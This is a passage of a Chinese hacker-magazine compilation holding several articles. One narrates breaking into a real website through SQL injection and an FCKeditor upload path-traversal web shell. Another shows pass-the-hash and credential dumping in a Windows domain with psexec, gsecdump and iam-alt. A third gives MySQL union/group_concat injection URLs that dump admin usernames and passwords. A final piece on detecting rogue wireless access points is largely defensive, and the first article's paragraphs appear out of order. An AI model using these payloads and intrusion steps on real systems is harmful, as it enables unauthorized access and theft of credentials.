绕来绕去现在还是回到了 FCKEDITOR 上，无奈之下，回到最初的 FCKEDITOR 上传页面，无意中将先前的那个 cmd.jsp 又上传了一遍，却出现了意想不到的画面。

图 7

先简单测试下有没有注入漏洞，分别以单引号、and 1=1 和 and 1=2 测试，都返回了同样的出错页面，再以 `'and '1'='1` 和 `'and '1'='2` 来测试，返回还是错误。不是吧，难道不能注入？稍作休息，将注入点后面的两个参数互换位置，再尝试注入，终于成功了！

接着在命令行下执行“telnet www.xx.com 1521”，发现这个端口是对外开放的，如图 6 所示，也就是说，Oracle 和 WEB 有可能是在同一台服务器上。最近看到了几篇 Oracle 注入文章，知道了只要 Oracle 和 Web 是在同一台服务器上，利用 Oracle 的注入拿到系统权限是有可能的。但今天我要讲的不是这个，只是简单地提一下，有兴趣的朋友可以到网上找找这类文章。

图 8

在提示 XML 出错的同时还出现了“你上传的文件名已经存在，被自动命名为 cmd(1).jsp”。哈哈，那不就是说我们已经上传成功了吗？如图 9 所示。

依据我们既定的步骤 2，来破解网站的管理员账号和密码。将注入点直接放在“穿山甲”中检测，经过漫长的等待，终于找到了网站的管理表，并成功破解了后台管理账号，如图 7 所示。

但是现在有个问题了，那就是：既然上传成功了，为什么访问的时候却是 404 呢？怀着试试看的心情去访问 FCKEDITOR 的 UserFiles 目录（用过 FCKEDITOR 的朋友都知道这个目录默认是在站点根下的），又出现了意外的画面。因为从先前和朋友的交谈中得知是有这个目录的，正常情况下应该显示 403 错误（就是被禁止访问的意思），但是现在却显示 404，也就是页面不存在的意思，如图 10 所示。

同时，我也在百度的帮助下找到了网站的管理后台，语法：site:xxx.com login。这个关键字的意思就是在主域名下查找包含“login”的页面。但是登录后台后，除了先前的那个 FCKEDITOR 之外，根本没有其它可以利用的，如图 8 所示。

该网站将添加的文章都默认生成了以 .htm 为后缀的页面，而不是 .jsp 的，而且在后台也没有相应的设置来更改生成的后缀。

于是让我有了以下的猜测：网站管理员将服务器的 403 错误改成了 404 错误！那为什么我们的马也是 404 错误呢？只有一种可能，那就是 UserFiles 文件夹下没有脚本的执行权限，也就是说我们的马在这个目录下是被杀的，不能正常运行。搞过服务器的朋友都明白，在没有执行权限的目录里，访问脚本木马的时候也是显示 403 错误的。

### 五、入侵

不过这样也没有关系，FCKEDITOR 的这个漏洞是可以跳转目录的，只要将 Type=Image 中的 image 目录换成我们想要跳转的目录就可以了，修改后的连接如下：

图 9

```text
http://www.xxx.com/FCKeditor/editor/filemanager/browser/default/browser.html?Type=../&Connector=connectors/jsp/connector
```

“Type=../” 的意思就是直接跳转到站点根目录下，这里肯定是有执行权限的。在 IE 中访问以上地址，选中 cmd.jsp 上传，看到如图 3 的错误提示后，我知道上传成功了。带参数执行我们传上去的小马，cmd.jsp?cmd=whoami，如图 11 所示。

是 Administrator 权限啊，而且还开了终端，如图 12 所示。我直接打开了个管理员，然后登录终端，但是在登录的时候出了一点点小意外，服务器限制了终端连接数，如图 13 所示。

这个问题在很久以前就可以在 WIN2k3 下绕过了，只要使用命令“mstsc /console /v:IP:终端端口”。按照上面的格式在命令行下执行，成功登录服务器，如图 14 所示。

### 六、漏洞修补

经过和朋友的简单交流，发现上传至服务器的那个 cmd.jsp 并没有对服务器的安全造成威胁。看来管理员自定义的 403 错误在一定程度上是可以起到作用的，但是并不代表一个自定义错误就可以让服务器永无后患。

最后简单地提下对于此次利用的漏洞的修复建议：

- 1. 升级 FCKEDITOR 到最新版本
- 2. 删掉 filemanager 目录
- 3. 将 FCKEDITOR 目录改名

### 七、总结

总体本次入侵，其实没有什么新意，就是将一些零碎的东西帮大家收集起来，大家可以当作是一次笔记来看。最后对一直以来无微不至地关心帮助我的学弟同志送上我最衷心的问候和祝福。

**编辑点评：** 这个网站的管理员是个天才，将 403 改成 404，嘿嘿。不过如果有权限，终端超过最大连接数的话，可以直接在 jsp 的 shell 执行 quser，然后“logoff 断掉的 id”也是可以的。

## Psh-toolkit

在内网渗透的应用

图 Mickey

从本文你可以学到：

- psh-toolkit 里两个工具的用法

文章开始前先说说内网的拓扑结构，如图 1 所示：内网 DC 和 DNS 服务器是安装在一起的，IP 地址为 192.168.1.33。IP 地址为 192.168.1.105 的机器已经登录到 babyfox.com.cn 当前域了，其他的机器有没有登录到域，目前我还不知道。我的 IP 地址为 192.168.1.4，因为没有域的账号信息，所以无法登录到 babyfox.com.cn 域。我的目标有 2 个，1 是登录到域获得域内的共享文件信息，2 是看看是否能够操控 DC 来实现控制整个域。

网上有用 `net view /domain` 命令来找到 DC 的方法，我常用的是通过 `nslookup` 查询内网域名的 SRV 记录来获得，如图 2 所示。

```text
Command Prompt - nslookup

> set type=srv
> _ldap._tcp.dc._msdcs.babyfox.com.cn
Server:  Unknown
Address:  192.168.1.33

_ldap._tcp.dc._msdcs.babyfox.com.cn   SRV service location:
          priority   = 0
          weight     = 100
          port       = 389
          svr hostname = workgrou-ghtggx.babyfox.com.cn
workgrou-ghtggx.babyfox.com.cn   internet address = 192.168.1.33
```

从图 2 中可以看出，域名服务器和 DC 是在同一台机器上的，DC 的 IP 地址为 192.168.1.33，主机名为 workgrou-ghtggx。

### 一、完成目标 1，访问域内的共享

我先尝试利用当前机器（192.168.1.4）已经被解出来的账户信息，使用 psexec 配合 gsecdump 来连接域中的一个域成员，看看能否抓取出他的账户信息，如图 3 所示。

```text
C:\pshtoolkit_v1.4\psexec -s -u administrator -p mickeymouse \\192.168.1.105 -c gsecdump.exe -u

PsExec v1.94 - Execute processes remotely
Copyright (C) 2001-2008 Mark Russinovich
Sysinternals - www.sysinternals.com

...gsecdump.exe exited on 192.168.1.105 with error code 0.
```

很幸运，本地 administrator 账户是通用的，从抓取出来的 hash 可以得知，域中的 pongpong 用户正在 192.168.1.105 上进行操作。再来试试能不能抓取出 DC（192.168.1.33）的信息，要是抓取出来了，使用彩虹表破解出其中的一个 domain admins 组的账户，就能直接掌控域了。如图 4 所示，密码错误，很正常，我想管理员也不会把 DC 的本地登录账号设置成和其他主机一样的。

```text
C:\pshtoolkit_v1.4\psexec.exe -s -u administrator -p mickeymouse \\192.168.1.33 -c gsecdump.exe -u

PsExec v1.94 - Execute processes remotely
Copyright (C) 2001-2008 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.1.33:
Logon failure: unknown user name or bad password.
```

现在使用 pshtools 工具包中的 iam，把刚才使用 gsecdump 抓取出来的 HASH 信息导入本地的 lsass 进程来实现 hash 注入攻击，这里的操作有一点是需要注意的：因为我是 3389 连接到 192.168.1.4 主机的，所以在运行 iam 工具的时候会提示你“Error in InjectDLLAndCallFunction”错误，如图 5 所示。

解决方法很简单，使用 `mstsc /admin` 方式登录就可以了（不过这样的登录方式要小心，因为对方的当前会话会被注销掉，容易被发现）。以后同样的工具，只要是操作 lsass 进程的，遇到此类的出错信息，都可以试试使用这个方法来解决。是否导入成功可以用 whosthere 工具再来验证下，如图 6 所示。

```text
C:\pshtoolkit_v1.4\iam-alt\iam-alt -h pongpong:workgrou-ghtggx:...
IAM-ALT v1.1 - by Hernan Ochoa ...
This tool allows you to change the NTLM credentials of the current logon session.

Error in InjectDLLAndCallFunction
```

```text
C:\pshtoolkit_v1.4\iam-alt\iam-alt -h pongpong:workgrou-ghtggx:...
IAM-ALT v1.1 - by Hernan Ochoa ...
This tool allows you to change the NTLM credentials of the current logon session.

the credentials were successfully changed!
```

```text
C:\pshtoolkit_v1.4\cd ..
C:\pshtoolkit_v1.4>cd whosthere-alt
C:\pshtoolkit_v1.4\whosthere-alt\whosthere-alt.exe

WHOSTHERE-ALT v1.1 - by Hernan Ochoa ...
This tool lists the active local logon sessions with NTLM credentials.

pongpong:workgrou-ghtggx:...
...
```

现在因为 pongpong 这个账户是域内的一个普通账户，我们能够直接访问 DC（192.168.1.33）的共享信息了，但是因为权限问题，还没有办法直接拿到 DC 机的权限，其实，此时如果遇到有可写的共享目录，已经可以实现绑马操作了，如图 7 所示。

### 二、未完成的目标 2，接管域

Windows 2003 默认的域管理策略是比较严格的，新建立的账户信息都要符合密码复杂度要求，但是 Windows 2003 为了向下兼容，依旧没有摒弃使用 LM 算法，这样就可以使用 LM 彩虹表很容易地攻破密码，如图 8 所示。破解出来 pongpong 的密码是 678wsxQAZ+#$%，现在使用这个账户远程登录 DC，如图 9 所示。

出错了！默认配置下，域的 domain users 没有权限登录 DC。再来试试 psexec，如图 10 所示，也失败了，DC 默认安装好后，就把 admin$ 共享给删除了。

### 三、总结

有的朋友可能会说，这个有什么用啊？既然都抓出 LM hash 了，为什么一开始就不用彩虹表跑出明文密码呢？我想说的是，彩虹表不是万能的，国内的那个 120G 的彩虹表，如果用户设置的密码里有空格，是跑不出来明文的。而且有时候，有的管理员设置的密码超过 14 位了，你用 pwdump 这类的工具抓出来的 LM hash 列有可能是“00000000000000000000000000000000”，也有可能是“AAD3B435B51404EEAAD3B435B51404EE”，这样就更跑不出来了。因为 LM 密码的有效位是 14 位，所以这个工具还是很有意义的。

关于入侵 DC 的那个地方，我目前也没有什么好办法，不过倒是想到了一个比较被动的方法，就是登录每个域成员的机器，然后运行 whosthere-alt.exe -i，意思是每隔 2 秒无限循环搜索新登录的会话。此时如果有域管理员登录了，就能抓出他的 HASH，也就能直接搞定 DC 了。不过这个方法好像实施起来不那么理想。

另外再说下 psexec 的使用，2.4.4 版本添加了许多的功能，比如在渗透时最有用的 -s 选项，意思是从 administrator 权限得到 system 权限。这样就很方便了，可以很容易地停掉一些杀毒软件了。在机器上第一次使用 psexec 的时候，会提示你确认许可协议，如果是在命令行下操作，可以使用 `psexec /accepteula` 命令来绕过。

> 编辑点评：关于直接将 hash 注入进程，获得当前用户权限，还有一个工具是 msvctl.exe。相对比，本文介绍的 iam 要更好一些。本来这期我想写一篇这样的文章的，Mickey 写了我就不写了，msvctl.exe 的图文介绍在：http://www.truesec.com/PublicStore/((X(1)S(ds15dd55knta3aajpq0ayz45))/catalog/categoryinfo.aspx?cid=223&AspxAutoDetectCookieSupport=1 这里。

## Group_concat 函数终极利用

【晓华［岁月联盟信息安全团队］】

本文介绍了 Group_concat 函数在注射中的用途。

### 一、开篇介绍

在 FLYH4T 大哥的《Mysql5 注射技巧总结》一文中介绍了通过使用“information_schema”库实现遍历解库名、表名以及字段名的技术，解决了一些以前使用工具无法猜解到的库名、表名以及字段名的问题，提高了注射的效率。关于此文的详细技术细节请参考往期的《黑客手册》。但是通过我的研究，发现这种技巧有一定的缺陷。首先遍历的库名或者表名以及字段名等位置，要使用到 limit 功能语句来强制返回 select 查询的记录数。如果在渗透中 limit 功能语句无法使用，是不是很难进行遍历了？如果被限制的话，可以使用“!=”来绕过，语句使用格式如下：

```text
show.php?id=2/**/and/**/1!=2/**/union/**/select/**/1,table_name,3,4,5,6,7,8,9,10/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/and/**/1/**/!=char(97,100,109,105,110)
```

虽然这样能够绕过 limit 的限制，但是利用起来非常不方便，而且猜解的速度很慢。经过我的仔细研究，找到了一个相对比较好的方法，而且解决了 limit 被限制的问题。更重要的是，加速了遍历的速度，明显提高了注射的效率。

**group_concat() 函数介绍**

该函数完整语法如下：  
GROUP_CONCAT([DISTINCT] expr [, expr ...] [ORDER BY {unsigned_integer | col_name | formula} [ASC | DESC] [, col_name ...]] [SEPARATOR str_val])。

该函数返回一个字符串结果，该结果由分组中的值连接组合而成，这个函数在 MySQL 4.1 中被加入。有关详情的朋友可以参考《MySQL 5.1 参考手册》。

### 二、普通利用

该函数在 MySQL 的注射中也有使用的例子，利用方法还只是局限于在一个地方显示一些普通信息，比如显示数据库版本、暴字段数据、暴版本库信息，执行语句格式如下，结果如图 1 所示。

```text
news.php?category=seminar&id=--291/**/union/**/select/**/1,group_concat(user(),0x3a,version(),0x3a,database()),3,4,5,6,7,8,9,10,11,12,13,14,15-- -
```

暴用户名以及密码等等数据信息，执行语句格式如下：

```text
news.php?id=1/**/union/**/select/**/1,group_concat(username,0x3a,password),3,4,5,6,7,8,9,10,11,12/**/from/**/admin-- -
```

这么强悍的函数，我们为什么不深度挖掘它的功能呢？利用它可以干一些不可思议的事。接下来我会介绍如何深度利用这个函数，读者朋友可要仔细了。

### 三、高级利用

- 1. 暴全部库名

利用这个函数可以暴出全部的数据库名，构造查询语句如下，结果如图 2 所示。

```text
news.php?category=seminar&id=--291/**/union/**/select/**/1,group_concat(SCHEMA_NAME),3,4,5,6,7,8,9,10,11,12,13,14,15/**/from/**/information_schema.SCHEMATA-- -
```

暴出了所有的数据库名，共有三个，依次为：information_schema、cite、test。

- 2. 暴全部表名

利用这个函数可以暴出全部的表名，如果想暴出 cite 库的全部表名，构造查询语句如下，结果如图 3 所示。

```text
news.php?category=seminar&id=--291/**/union/**/select/**/1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14,15/**/from/**/
```

```text
information_schema.tables/**/where/**/
table_schema=0x63697465
```

其中 0x63697465 是 cite 的 HEX 值。

如果只是想暴出当前库的全部表名，我们不需要将库名进行 HEX 值转换，可以执行如下语句，结果如图 4 所示。

```text
news.php?category=seminar&id=-291/**/
union/**/select/**/1,group_concat(table_name),3,
4,5,6,7,8,9,10,11,12,13,14,15/**/from/**/
information_schema.tables/**/where/**/
table_schema=database()--
```

其中 database() 函数就是显示当前库的信息。

### 4、暴全部字段名

利用这个函数可以暴出全部的字段名，如果想暴出 “account” 表的全部字段，首先将其进行 HEX 转换，然后构造查询语句如下，结果如图 5 所示。

```text
news.php?category=seminar&id=-291/**/union/**/
select/**/1,group_concat(column_name),3,4,5,6,7,8,9,10,
11,12,13,14,15/**/from/**/information_schema.columns/**/
where/**/table_name=0x6163636f756e74
```

得到两个敏感的字段，依次为：username、password。

### 5、暴最终敏感数据

有了表和字段等关键信息，我们就可以暴出敏感数据信息。构造查询语句如下，结果如图 6 所示。

```text
news.php?category=seminar&id=-291/**/union/**/select/**/1,
group_concat(username,0x3A,password),3,4,5,6,7,8,9,10,11,12,13,14,15/**/from/**/cite.account
```

### 四、总结

灵活运用此函数，能让你充分感受到 MYSQL 注射的快感。


其实也不是什么高深的技术，只不过是 MYSQL5 的 “information_schema” 库与函数的综合运用罢了。对本文有任何疑问及好建议的朋友，请到《黑客手册》官方论坛（www.nohack.cn/bbs）或者岁月联盟找我交换意见，谢谢。

> 编辑点评：我以前碰到过一个 php+mysql5 的注入点，库、表名和字段名都暴出来了，但是按照常规语句就是暴不出字段值，最后也是用 group_concat() 来解决的，这个函数真的很好用。

## 无线攻击技巧系列 2

作者：Christopher Yang / 杨哲【ZerOne】

## ——搜索及发现内网非授权无线路由器 / AP 技巧

本文介绍了如何搜索非授权无线路由器的方法。

随着无线网络的普及，在目前的绝大多数企事业单位内部及小区网络中，已经陆续接入了大量用于私人用途的无线路由器 / AP。而出于对网络稳定性及安全性的考虑，很多管理员就要求能够探查到这些无线设备，并根据具体规定封锁或者查杀这些无线设备。因此，如何在内部有线网络中发现未经授权搭建的无线路由器或者无线 AP，已经是困扰很多管理员的一个难题。本文将从搜索和反搜索两个方面讲述目前常用的方法和技巧，欢迎大家讨论。

### 一、搜索篇

## 方法1：端口扫描

由于基本上大多数无线接入点 / 路由器都是支持 WEB 进行配置，所以其 80 端口一般都是开放的，那么通过使用端口扫描器扫描内网所有主机的 80 端口，排除掉正常提供 WEB 服务（如 IIS、Apache 等）的主机，其余的就是可疑的无线路由器或无线接入点了。当然，这里面也有传统的路由器等有线网络设备，所以就需要进一步地确认。该方法适用于目前市面上主流的 TP-Link、D-Link 及 Linksys 等多款无线路由器。

第一步，先使用 Nmap 对目标 IP 的指定端口进行探测，用以获得其对应服务的标识信息。我们先对全网段扫描开放 80 端口的设备，命令如下：`nmap -vv -sS 192.168.0.0/24 -p 80`

| 参数解释 | 说明 |
|---|---|
| -vv | 显示详细结果 |
| -sS | 采用 SYN 扫描，该方式在对方有防火墙拦截时使用，结果较准确 |
| -p | 后跟扫描端口 |

扫描结果如下所示，可以看到大量开启 80 端口的设备 IP，注：为方便查看，我已经将数据缩编。

```text
C:\>nmap -vv -sS 192.168.0.0/24 -p 80

Starting Nmap 4.53 ( http://nmap.org ) at 2007-12-28 11:38 中国标准时间
Initiating ARP Ping Scan at 11:38
Scanning 126 hosts [1 port/host]
Completed ARP Ping Scan at 11:38, 1.72s elapsed (126 total hosts)
Initiating Parallel DNS resolution of 126 hosts. at 11:38
Completed Parallel DNS resolution of 126 hosts. at 11:38, 5.50s elapsed
Initiating Parallel DNS resolution of 1 host. at 11:38
Completed Parallel DNS resolution of 1 host. at 11:38, 0.02s elapsed
Initiating SYN Stealth Scan at 11:38
Scanning 8 hosts [1 port/host]
Discovered open port 80/tcp on 192.168.0.1
Discovered open port 80/tcp on 192.168.0.250
Completed SYN Stealth Scan at 11:38, 0.23s elapsed
Host 192.168.0.1 is up
Interesting ports on 192.168.0.1:

PORT  STATE SERVICE
80/tcp open  http
MAC Address: 00:11:95:F0:41:52 (D-Link)

Host 192.168.0.250 is up
Interesting ports on 10.0.0.100:

PORT  STATE SERVICE
80/tcp open  http
MAC Address: 00:40:05:27:AE:12 (ANI Communications)

（略）
```

| 无线路由器品牌 | 默认开放端口 | 特殊开放端口（个别） | 市面主流产品 |
|---|---:|---:|---|
| Belkin（贝尔金） | 80 | 53 | F5D7230 |
| Linksys（思科） | 80 | 2869 | WRT54G |
| D-Link | 80 | 52869 | DI-524、DI-624 |

第二步，在扫描结果的基础上，对开启 80 端口的设备进行具体版本识别。此版本识别依赖于 Nmap 自带的操作系统／网络设备指纹库，具体命令如下：`nmap -vV -sV 192.168.0.250 -p 80`

- 参数解释：
- `-sV` 对端口服务信息探测时使用，后跟探测 IP。

扫描结果如图 1 所示，黑框内标出了探测到的端口信息，可以看到，该地址为一台无线路由器，且该无线路由器型号为 D-Link DWL-900AP+，版本号为 2.56，为非法搭建 AP。通过在网关上设定规则可以屏蔽该无线路由器上外网，此时即可配合无线搜寻设备来定位该无线路由器。

一般不仅仅依赖于对 80 端口的判断，一些无线网络设备除了 80 端口之外，也会开启一些很少见的端口，这些也将是我们判断无线设备的依据。这些端口就需要平时的经验及总结，下面我给出部分实例以供大家参考。

当然，也并不是所有的无线设备默认都支持从外部网络访问到其配置页面，这点尤其要注意，所以就需要更多的方法来确认，比如方法 2：特定 ARP 报文探测。

### 方法 2：特定 ARP 报文探测

在正常情况下，一台没有安装任何嗅探工具的 Windows 系统主机，只会对两种 ARP 数据报文作出响应，即 ARP（Broadcast 16-bit）和 ARP Test（Multicast group1）。

```text
Starting Nmap 4.53 [http://insecure.org] at 2007-12-28 15:45 中国标准时间
Initiating ARP Ping Scan at 15:45
Scanning 192.168.0.250 [1 port]
Completed ARP Ping Scan at 15:45, 0.50s elapsed
Initiating Parallel DNS resolution of 1 host
Initiating SYN Stealth Scan at 15:45
Scanning 192.168.0.250 [1 port]
Discovered open port 80/tcp on 192.168.0.250
Completed SYN Stealth Scan at 15:45, 0.03s elapsed
Initiating Service scan at 15:45
Scanning 1 service on 192.168.0.250
Completed Service scan at 15:45, 6.36s elapsed
Host 192.168.0.250 appears to be up ... good.
Interesting ports on 192.168.0.250:
PORT   STATE SERVICE VERSION
80/tcp open  http    D-Link wireless web admin device (Embedded HTTP Server 2.56; D-Link DWL-900AP+)
MAC Address: 00:40:05:27:AE:12 (ANI Communications)
```


对于一些设计不严谨的无线接入点，甚至可以直接在浏览器中输入怀疑的地址，在弹出的登录界面上也能够查看到对方的版本提示。如图 2 所示，在登录框上面显示为 TP-LINK WR541G 无线路由器。


用过 Sniffer 的朋友都知道，一旦在系统下安装了嗅探工具并且激活处于工作状态时，其监听的网卡便进入到混杂模式下，就会截获所有发至该网卡下的数据，而不再丢弃目的地址不是本机的数据报文。同时，此模式下的网卡也将对 ARP Test（Broadcast 31-bit）类型的报文作出响应。


通过发送特定的 ARP 数据报文，能够探测出疑似路由设备。使用 Cain 进行内网 ARP 扫描，选择 31 位 ARP 数据报文扫描，在扫描结果中凡是出现 * 号的均为疑似路由器，如图 3 所示。然后再使用 Nmap 进行特定扫描或者直接登录对方 80 端口以确认结果。

比如，在浏览器里输入 `http://10.0.0.1` 后，就可以看到如图 4 所示内容，即目标为 DI-604+ 无线路由器。

### 方法 3：MAC 地址排查法

大家都知道，网卡本身的 MAC 地址中前三段是厂商代码，后三段是产品代码。那么，对于一个厂商而言，其所能够赋予产品的 MAC 地址，都已经在 IEEE 注册，我们也都可以在 IEEE 的网站上查询到。这样的话，方法就出来了：先获取内网所有设备的 MAC 地址列表，然后再对其进行排查。若有探测无线信号的工具或者设备，也可以直接获取无线设备 MAC 与内网 MAC 地址列表进行对比。使用 MAC 地址扫描就可以获取内网的 MAC 地址表，Windows 下的朋友可以使用 nbtscan 或者 Cain 自带的 MAC 扫描功能。


图 5　笔记本电脑内置的 Intel3945ABG 及 4965AGN 无线网卡


图 6　可以看到，随着无线网卡距离 AP 的缩短，无线信号愈趋明显

既然通过监测到的疑似 AP 对应 MAC 地址来查询产品信息已成为快速便捷的辅助手段，那么由于所有的网络设备都具有一个 MAC 标示，这是厂商在生产过程中直接烧录在网卡、外置适配器中的，从理论上而言，该 MAC 可以认为是唯一的。

MAC 一般有 48 位长，其中前 24 位被 IEEE 定义为 Organizationally Unique Identifier，简称为 OUI。OUI 是用来标识厂商的，所有的厂商均先申请了自己的 OUI，所以通过查看 MAC 的 OUI 部分就可以轻松地辨别出该设备属于哪个厂商。由于一些厂商的产品过多，所以也会申请多个 OUI 使用。

当检测到可疑 AP 的 MAC 时，大家可以到 OUI 数据库相关页面网址 http://standards.ieee.org/regauth/oui/index.shtml 查询。

既然所有的网络设备都有一个唯一的 MAC 地址，我们就可以通过其获得更多的相关信息。比如，当 MAC 地址为 000CCE211918 的 AP 被检测到时，可以到在线数据库输入 000CCE（前半部分）查询，结果为 Cisco 设备。

## 方法4：无线定位

根据对比无线信号的强弱，也能够为搜寻无线路由器 / AP 的位置提供有力依据。出于实际情况的考虑，这里就不讨论过于高端的无线探测硬件设备，只讨论相对便于实现且成本较低的方法。

首先，我们先来看看天线的知识，无线网卡使用的天线主要有两种，分别是全向天线和定向天线。笔记本电脑自带的 Intel3954、Intel4965 等无线网卡，如图 5 所示，采用的都是全向天线，而大家常用的外置 PCMCIA 无线网卡，使用的也是全向天线。

在实际工作发生过程中，无论电脑的朝向如何，全向天线的信号强度都保持不变，因而使用特别方便。

其次，判断无线信号的强弱还需要使用信号强度探测器。信号强度探测器用于测量来自恶意 AP 的 RF 射频信号，信号越强，与 AP 的距离就越近。信号强度探测器有多种类型，最常见的类型是软件实用程序，通常随安装在笔记本电脑中的网卡一起提供。不同制造厂商的此类程序各有不同，但一般都以图表形式显示信号强度，比如 IBM 笔记本自带的无线搜索工具。当然，为了更清楚地查看信号衰减或者递增的情况，也可使用第三方软件，这些软件通常具有更强的信号强度测量功能。

第三方应用程序可提供更为具体的度量，图表也更大、更便于使用，比如 NetStumbler、Commview for WiFi 之类的软件就可以实现无线信号源的搜索，如图 6 所示，为使用 NetStumbler 进行无线信号探测的效果图，我们可以清楚地看到无线信号的增强。

NetStumbler 的使用很简单，其对无线网卡的支持性也很高，大家不用担心网卡芯片的问题。由于是免费的工具，所以在安装完毕后，直接双击打开主程序，在“Device（设备）”一栏指定要使用的无线网卡，点击上面栏中的“Start”即可。

## 方法5：通过 SNMP 探测

即使对方修改了无线设备的原有 MAC，我们也可以使用其它方法来探测。比如对于一些默认开启 SNMP 的无线路由器，我们可以使用针对 SNMP 的相关工具来进行探测。

> SNMP 即 Simple Network Management Protocol，中文意思为“简单网络管理协议”。它是一个标准的用于管理 IP 网络上结点的协议。在路由器里最为常用的网管协议就是 SNMP。

SNMP 首先是由 Internet 工程任务组织（Internet Engineering Task Force，IETF）的研究小组为了解决 Internet 上的路由器管理问题而提出的。目前，几乎所有的网络设备生产厂家都实现了对 SNMP 的支持，领导潮流的 SNMP 是一个从网络上的设备收集管理信息的公用通信协议，设备的管理者收集这些信息并记录在管理信息库（MIB）中。这些信息报告设备的特性、数据吞吐量、通信超载和错误等。MIB 有公共的格式，所以来自多个厂商的 SNMP 管理工具可以收集 MIB 信息，在管理控制台上呈现给系统管理员。

此协议包括了监视和控制变量集以及用于监视设备的两个数据格式：SMI 和 MIB。其中，MIB 即 Management Information Base，中文意思为“管理信息库”，为网络管理协议访问的管理对象数据库，它包括 SNMP 可以通过网络设备的 SNMP 管理代理进行设置的变量。也可以认为 MIB 是对象的集合，它代表网络中可以管理的资源和设备。每个对象基本上是一个数据变量，它代表被管理的对象的一方面的信息。

SNMPv1 也使用了双口令系统，在这里口令叫做 Community string，即字符串。一个是只读 community string，仅仅负责得到数据；另外一个是读写的 community string，它被用来得到和改变数据进入 MIB 变量中……

community string 是用明文传输的，最新的 SNMP 版本 v3，在安全性方面提供了改进，但大多数的管理应用软件仅利用 SNMPv1。对于绝大多数支持 SNMP 的路由器来说，默认的 SNMP 字符串通常是 public，而可读写的字符串则是 private。

如图 7 所示，在 Linksys 无线路由器上默认开启 SNMP 设置。使用 snmpwalk 对内网的无线路由器进行探测，命令如下：

```text
snmpwalk -c public -v 1 192.168.15.1
```-v 1/2c/3：指定所使用的 SNMP 版本，此处设置为 1。

具体扫描结果如图 8 所示。其实返回的数据远比图 8 中显示的内容要多得多，但是由于版面的限制，我把返回的内容进行删减，以下为我们需要查看的部分。

```text
C:\>snmpwalk -c public -v 1 192.168.15.1
SNMPv2-MIB::sysDescr.0 = STRING: Linksys SNMPv1/v2c Agent
SNMPv2-MIB::sysObjectID.0 = OID: SNMPv2-SMI::mib-2
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (35036) 0:05:50.36
...
SNMPv2-MIB::sysContact.0 = STRING: Linksys
SNMPv2-MIB::sysName.0 = STRING: targetname
SNMPv2-MIB::sysLocation.0 = STRING: Planet Earth
SNMPv2-MIB::sysServices.0 = INTEGER: 79
IF-MIB::ifNumber.0 = INTEGER: 5
IF-MIB::ifIndex.2 = INTEGER: 2
[略]
tcpConnState.0.0.0.0.23.0.0.0.0.0 = INTEGER: listen(2)
tcpConnState.0.0.0.0.80.0.0.0.0.0 = INTEGER: listen(2)
tcpConnState.0.0.0.0.443.0.0.0.0.0 = INTEGER: listen(2)
tcpConnState.0.0.0.0.1723.0.0.0.0.0 = INTEGER: listen(2)
tcpConnState.0.0.0.0.2300.0.0.0.0.0 = INTEGER: listen(2)
tcpConnState.0.0.0.0.2869.0.0.0.0.0 = INTEGER: listen(2)
tcpConnState.0.0.0.0.8080.0.0.0.0.0 = INTEGER: listen(2)
[略]
```

在上述结果及图 8 中我们可以清楚地看到，该路由设备的厂商名称为 Linksys。稍微了解无线市场的朋友应该都知道，Linksys 就是大名鼎鼎的 CISCO（思科）厂商下属的无线网络产品品牌，所以我们即可确定该网络设备是一无线路由器，同时也能够看到当前路由器上开放的服务及对应端口，如图 9 所示，为 Linksys 产品标识。

## 方法6：通过无线路由器的 0day 实现

该方法依赖一个前提，就是一定要先连接到该无线路由器所提供的内网环境。对于未启用加密的无线 AP 来说，很容易直接连接即可进入。而对于那些启用了 WEP 加密的无线设备，是需要先行破解 WEP 加密，然后再连入其内部网络。相对于脆弱的 WEP 加密而言，启用 WPA-PSK 加密的要难破解一些，个别采用了 12 位以上无规律密码的，从单纯的概率论计算而言，对于家用计算机甚至根本无法破解。

当然，凡事不绝对，我们总是能够发现会有人采用类似于手机号码、生日组合、姓名+生日、常见单词等这样简单的密码。

在连接到该无线设备所提供的内网后，我们就可以针对无线设备的漏洞进行溢出或者攻击。在进入到设备的管理配置页面后，自然能够看到明确的 IP 地址、设备名称、当前 MAC 地址等信息，也就能够直接从企事业内部网络中锁定该 AP 了。

大家可以到 CVE 或者“安全焦点”的漏洞库里查询相关的漏洞通告及利用说明。由于本文主题是探查内网非授权无线路由器，下一次我会再给大家准备一篇关于无线路由器漏洞利用的文章。

### 二、反搜索篇

对于作为家庭及小范围使用的朋友来说，也不要担心有人会这样搜你的无线设备，这里我也同样介绍几种方法来协助你尽可能躲过上述方法的检测。一般来说，在无线路由器上使用的常见反探测手段有以下几种：

### 1、阻挡外网的 Ping 数据报文

对于网络中的很多协议及服务来说，它们很依赖于 Ping。由于 Ping 数据报文主要基于 ICMP 协议，所以过滤此类协议将有助于在外网上隐藏无线设备，比如防止 ICMP 探测。设置位置及内容一般如图 10 所示。

### 2、配置无线路由器禁止外部 80 或者 8080 端口登录

在启用此项功能前，应确认事先已经设置管理员密码，远程管理能让该 AP 持有者从网络的任何地方进行路由器的设定。一般来说，共有两种远程管理路由器的方式：

第一种方式可以从任何地方存取路由器，只要选择任何可以遥控管理路由器的 IP 地址，从网络上的任何地方输入该设备对应的广域网 IP，用户可以看到一个要求输入路由器密码的窗口。

第二种方式能够让指定的 IP 地址对路由器进行遥控管理。这个方式比较安全，但是较为不便。若要使用这种方式，输入将要存取的路由器的 IP 地址，然后选择“只有这个 IP 地址可被路由器远程操作”。在开启此项功能之前，强烈建议设定一个管理者密码。若让密码栏空白，很可能使该路由器遭到入侵。

这里我们仍旧以前面某品牌的贝尔金无线路由器为例，来到如图 11 所示的界面，将开启的远程管理 IP 关闭或者留空。

### 3、配置禁止 SNMP

有些无线路由器默认是开启 SNMP 管理的，比如 Linksys 的多款无线产品。所以在不需要的时候，应当进入到配置页面将其关闭，如图 12 所示。

### 4、修改无线设备 MAC

为防止外界通过对无线信号的分析获得无线路由器的 MAC 地址，应将自身的 MAC 修改成任意 AP 的地址，或者直接就采用另外某一款型号的无线设备 MAC 地址，这样就能够起到一定程度的迷惑性，甚至能够迫使一些无线攻击者的判断失误，从而导致攻击失败。在无线路由器中，修改 MAC 地址的位置如图 13 所示，此处以贝尔金无线路由器为例。

### 5、配置“禁止广播”

